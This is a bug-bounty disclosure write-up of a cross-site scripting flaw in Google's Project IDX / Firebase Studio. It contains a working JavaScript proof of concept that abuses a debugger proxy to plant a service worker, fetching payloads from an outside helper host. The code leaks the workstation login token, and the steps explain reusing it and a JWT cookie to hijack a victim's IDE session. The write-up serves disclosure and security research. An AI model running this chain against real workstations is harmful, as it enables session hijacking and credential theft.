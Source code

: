 ```yaml
---
title: idx.google.com XSS (Awarded $3133.70)
---
```


This is a hosted development environment called [Firebase Studio](https://studio.firebase.google.com/) formerly [Project IDX](https://idx.google.com) based on [Visual Studio Code](https://github.com/microsoft/vscode) like [Google Cloud Shell](https://cloud.google.com/shell/)

Feature being abused: <https://developers.google.com/idx/guides/debug-in-idx#chrome-devtools>  
Its based of the Chii open source project: <https://github.com/liriliri/chii/commit/0002b761737f450fe070699b6fec284d6e1e91e9>

- Create a project as simple html.
- Once loaded, Take the `ID` from an iframe in the format `https://9000-monospace-<ID>.cloudworkstations.dev` (In a real attack this could be leaked from the network)
- Run the following from any website replacing `ID` with your own ID.

```js
// Vulnerable debugger proxy (Runs any js code you want, Fetch as the victims server)
let target = 'https://8282-monospace-<ID>.cloudworkstations.dev/proxy?url=';

// Link to our service worker
let proxy = new URL('https://terjanq.me/xss.php');
proxy.searchParams.set('ct', 'application/javascript');
proxyPayload = `
self.addEventListener("fetch", (event) => {
 let url = event.request.url;
 // Leak token from redirect since its a httponly cookie
  // Authentication is done by:
 // Redirecting the user to https://ssh.cloud.google.com/devshell/gateway/oauth?state=<value> (Cross-site, COOP, embed protection)
 // https://<PORT>-idx-<ID>.cloudworkstations.dev/_workstation/login?redirect=<value> this sets a cookie then redirects back.
 if (url.includes("_workstation/login")) {
  console.info('🎉 Leaked token: '+url);
 }
});
`;
proxy.searchParams.set('html', proxyPayload);

// Link to force a re-authenticate
let reauth = new URL('https://terjanq.me/xss.php');
reauth.searchParams.set('h[Clear-Site-Data]', '"cookies"');
reauthPayload = `
setTimeout(() => { location.href=location.origin }, 3000);
`;
reauth.searchParams.set('js', reauthPayload);

// Link to create service worker
let setup = new URL('https://terjanq.me/xss.php');
setupPayload = `
navigator.serviceWorker.register("${target + encodeURIComponent(proxy.href)}");
setTimeout(() => { location.href="${target + encodeURIComponent(reauth.href)}" }, 3000);
`;
setup.searchParams.set('js', setupPayload);

// Do the stuff
location = target + encodeURIComponent(setup.href);
```

- In the console you should see a message that says "leaked token" of the format `https://8282-monospace-<ID>.cloudworkstations.dev/_workstation/login?redirect=<secret>` in a new browser go to that URL and you will be logged in to the debugger.
- You will have got a `WorkstaionJwt` from that by changing the domain of this cookie for example to `80-monospace-<ID>.cloudworkstations.dev` you can login to the IDE!

